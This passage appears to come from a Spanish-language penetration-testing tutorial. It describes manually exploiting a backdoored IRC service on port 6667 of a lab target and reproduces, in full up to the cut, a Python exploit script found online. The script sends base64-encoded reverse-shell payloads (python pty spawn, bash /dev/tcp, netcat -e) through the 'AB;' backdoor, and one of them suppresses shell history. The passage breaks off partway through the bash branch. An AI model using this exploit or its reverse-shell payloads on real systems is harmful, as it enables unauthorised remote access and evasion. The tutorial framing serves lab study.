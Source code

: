 
## Caso de uso
Como ejemplo, vamos a realizar una explotación manual sobre la máquina objetivo usada en fases anteriores. En concreto sobre este servicio, el irc, presente en el puerto 6667 de la máquina objetivo. Podemos observar que hay un backdoor que nos va a permitir ganar acceso a la máquina.
![Vulnerabilidad IRC]({{ page.assets_path}}/ExplotandoVulnerabilidad1.png){: .shadow style="min-width: 70%;" }
_Vulnerabilidad IRC_



Creamos o buscamos un exploit para aprovechar esa vulnerabilidad. En este caso hemos encontrado un exploit en internet con el siguiente código:
```python
#!/usr/bin/python3
import argparse
import socket
import base64

# Sets the target ip and port from argparse
parser = argparse.ArgumentParser()
parser.add_argument('ip', help='target ip')
parser.add_argument('port', help='target port', type=int)
parser.add_argument('-payload', help='set payload type', required=True, choices=['python', 'netcat', 'bash'])
args = parser.parse_args()

# Sets the local ip and port (address and port to listen on)
local_ip = ''  # CHANGE THIS
local_port = ''  # CHANGE THIS 

# The different types of payloads that are supported
python_payload = f'python -c "import os;import pty;import socket;tLnCwQLCel=\'{local_ip}\';EvKOcV={local_port};QRRCCltJB=socket.socket(socket.AF_INET,socket.SOCK_STREAM);QRRCCltJB.connect((tLnCwQLCel,EvKOcV));os.dup2(QRRCCltJB.fileno(),0);os.dup2(QRRCCltJB.fileno(),1);os.dup2(QRRCCltJB.fileno(),2);os.putenv(\'HISTFILE\',\'/dev/null\');pty.spawn(\'/bin/bash\');QRRCCltJB.close();" '
bash_payload = f'bash -i >& /dev/tcp/{local_ip}/{local_port} 0>&1'
netcat_payload = f'nc -e /bin/bash {local_ip} {local_port}'

# our socket to interact with and send payload
try:
    s = socket.create_connection((args.ip, args.port))
except socket.error as error:
    print('connection to target failed...')
    print(error)
    
# craft out payload and then it gets base64 encoded
def gen_payload(payload_type):
    base = base64.b64encode(payload_type.encode())
    return f'echo {base.decode()} |base64 -d|/bin/bash'

# all the different payload options to be sent
if args.payload == 'python':
    try:
        s.sendall((f'AB; {gen_payload(python_payload)} \n').encode())
    except:
        print('connection made, but failed to send exploit...')

if args.payload == 'netcat':
    try:
        s.sendall((f'AB; {gen_payload(netcat_payload)} \n').encode())
    except:
        print('connection made, but failed to send exploit...')

if args.payload == 'bash':
```
